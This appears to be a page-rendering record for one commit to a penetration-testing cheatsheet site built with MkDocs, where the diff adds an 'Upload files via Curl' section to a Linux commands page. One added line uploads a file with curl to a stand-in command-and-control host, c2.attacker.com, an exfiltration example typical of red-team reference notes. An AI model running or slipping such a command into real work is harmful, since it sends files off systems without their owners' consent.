

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Useful_Commands/Linux.md, in a window 1280 px wide and 900 px high, scrolled down 2604 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3297 px from its top, so only the background shows below that.

Commit message:
Update Linux.md

````diff
--- a/docs/Useful_Commands/Linux.md
+++ b/docs/Useful_Commands/Linux.md
@@ -109,6 +109,13 @@ sudo iptables -A INPUT -p tcp --dport 22 -j DROP
 wget --mirror --convert-links --adjust-extension --page-requisites --wait=1 -o wget-mirror.log --no-parent https://example.org
 ```
 
+## Upload files via Curl
+* Combine with [Simple HTTP Servers](/Infrastructure_Setup/Simple_Python_Go_Packages.html)
+```
+curl -k --user 'root:toor' --upload-file file.zip https://127.0.0.1:8000/file.zip
+curl -k --user 'root:haxorz' --upload-file file.zip https://c2.attacker.com:443/file.zip
+```
+
 
 
 [^1]: [Stack Overflow](https://stackoverflow.com/questions/3724786/how-to-diff-two-file-lists-and-ignoring-place-in-list)
````
